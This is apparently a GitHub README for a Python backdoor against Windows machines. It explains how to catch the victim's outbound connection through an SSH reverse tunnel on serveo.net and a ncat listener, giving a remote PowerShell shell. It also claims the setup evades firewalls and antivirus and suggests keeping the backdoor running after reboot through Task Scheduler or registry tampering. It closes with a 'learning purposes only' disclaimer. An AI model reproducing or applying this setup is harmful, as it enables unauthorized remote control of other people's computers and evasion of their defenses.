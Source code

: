 # Python Backdoor for Windows On Public Networks

This project is a Python-based Windows backdoor that, once executed on the target PC, establishes a connection to a remote server hosted on SERVEO at a specified TCP port. The server then forwards the connection to the attacker's system, successfully bridging communication between the attacker's machine and the target system. This connection grants unauthorized access to the target machine and provides a PowerShell command interface. Through this interface, the attacker can remotely execute PowerShell commands on the compromised system.
#### ***The best part for this is that this will work even if the firewall and antivirus are running, because all the communications are happening through an ssh tunnel.***

- To get this to working a Tool must be installed on YOUR PC (attacker PC)

## Netcat installation
  
  To be able to receive and interpret incoming backdoor as a PowerShell command line we should use 'Netcat'. Netcat, also known as Ncat, is a powerful networking tool used for reading and writing to network connections using TCP or UDP protocols.
  ### For Linux:
  ```shell
 sudo apt install ncat
  ```
  - This one commad is enough to set up ncat on linux
### For windows:

  For WINDOWS Netcat comes With a networking tool called 'Nmap':
  - Go to Nmap official site https://nmap.org/download.html#windows
  - Download nmap installer and run it.
  - ***CHECK Ncat at this window***
 ![nmap_setup](https://github.com/user-attachments/assets/1916f804-be3e-4a5e-a362-b9f4b95439ce)
  - Continue the installation with default settings after this.
 
 ## SSH Server setup
  As mentioned already In order to receive connections from a public network we must have a public server capable of doing these things, for that 'serveo' is the best option. (it's an open source project )
  - you can visit 'https://serveo.net' for more knowledge
    
> [!NOTE]
> The 'SERVEO' service is often reported to experience prolonged periods of downtime.
> 
>  **Current :** ![status](https://img.shields.io/uptimerobot/status/m798198859-ecf1064c616a7c3cbfac9734)

  ```powershell
  ssh -R 61732:localhost:5555 serveo.net
  ```
 ![ssh](https://github.com/user-attachments/assets/5308fea9-6efd-4d16-81d9-fc1b6b8d749f)
  - This command will connect port 5555 on our local machine to port 61732 on the public server 'serveo' , any TCP port between range (49152–65535) will work, change the port no if not available.
  - ***Make sure the port number here (in this case 61732) is same as the port number on python code***

 ### REMINDER: you should keep a dedicated terminal open running this ssh command in order for this to work
 ## Ncat usage
 After Successfull installation you should see like this when you run the command 'ncat' :
 ![ncat_test](https://github.com/user-attachments/assets/d752e99b-ec2e-4722-b81d-2bce64bfe825)


 ```powershell
 ncat -lnvp 5555 #the same local port that you specified in ssh command
 ```
   Execute the command to start listening for connections :
  ![conn_try](https://github.com/user-attachments/assets/1b144bb1-fdf1-4fa2-ac68-e4cb376c30ce)


 While the python command is running on the target device connection will be established now you can start exceuting commands:
 ![final](https://github.com/user-attachments/assets/ba7bc1af-675e-4697-a9a5-be3f7be5749f)
>[!TIP]
> - Remember do not leave the terminal inactive, the connection will be lost since the python code tries to reconnect every 120sec (this time delay can be modified in the code) when no activity is dectected.
>   
> - If the terminal is stuck or not responding just close the current terminal and open new terminal and run the same ncat command, the python code is configured to try and reconnect if connection is closed.
>   
> - **You can configure the system to automatically startup the program on reboot. ON windows systems you can do this by using Task Scheduler or by tampering with registry.**
 

 ### For Learning purposes only. Do not do anything ilegal.
